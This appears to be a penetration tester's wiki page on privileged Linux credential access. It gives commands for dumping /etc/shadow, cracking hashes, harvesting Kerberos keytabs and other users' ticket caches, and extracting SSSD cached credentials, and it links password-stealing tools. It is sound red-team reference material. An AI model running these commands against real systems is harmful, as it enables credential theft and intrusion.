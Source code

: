 ```yaml
---
title: Privileged Linux Credential Access
---
```


[[notes/mitre-attack/credential-access]] as root on [[notes/linux/index]].

Also check everything from [[notes/linux/credential-access-user]].

# Login Passwords

Dump password hashes of local users.

~~~ bash
cat /etc/shadow
cat /etc/passwd
~~~

And crack weak hashes with [[notes/tools/john]].

~~~ bash
unshadow ./passwd ./shadow > ./hashes.txt
john --wordlist=./rockyou.txt ./hashes.txt
~~~

# Kerberos

Keytab files contain a principal name and encrypted keys.
They allow a user or script to authenticate to Kerberos without entering a password.
Keytabs are commonly used in cron scripts.

Dump the keytab of the computer account.

~~~ bash
klist -k -Ke
cat /etc/krb5.keytab
find / -type f -iname '*.keytab' -readable ! -path '/dev/*' ! -path '/proc/*' ! -path '/sys/*' -ls 2> /dev/null
~~~

Request a TGT and authenticate with a keytab.

~~~ bash
kinit administrator@CORP.LOCAL -k -t /tmp/administrator.keytab && klist
~~~

Dump Kerberos TGTs of other users.

~~~ bash
ls -la /var/lib/sss/db/ccache_*
grep -ahoP 'KRB5CCNAME=.*?\x00' /proc/*/environ 2> /dev/null | sort -Vu
find / -type f '(' -iname 'krb5cc_*' -or -iname 'ccache_*' ')' -readable ! -path '/dev/*' ! -path '/proc/*' ! -path '/sys/*' -ls 2> /dev/null
~~~

Download `/var/lib/sss/db/cache_*.ldb` files and try to crack the cached credentials.

~~~ bash
tdbdump ./cache_*.ldb | grep -ia passw
hashcat -O -w 3 -a 0 -m 1800 '$6$...' ./rockyou.txt
~~~

Untested tools:

- [LinikatzV2](https://github.com/Orange-Cyberdefense/LinikatzV2), can extract plain passwords from memory
- [tickey](https://github.com/TarlogicSecurity/tickey), extract Kerberos tickets from all users on Linux

# Applications

Untested tools:

- [mimipenguin](https://github.com/huntergregal/mimipenguin), dump passwords from Gnome Keyring, vsftpd, Apache basic auth and sudo
- [3snake](https://github.com/blendin/3snake), hook sshd and sudo to capture plain passwords

References:

- [SSHD Injection and Password Harvesting](http://web.archive.org/web/20230521144411/https://jm33.me/sshd-injection-and-password-harvesting.html)
- [Stealing SSH credentials](http://web.archive.org/web/20201109040134/https://mthbernardes.github.io/persistence/2018/01/10/stealing-ssh-credentials.html)

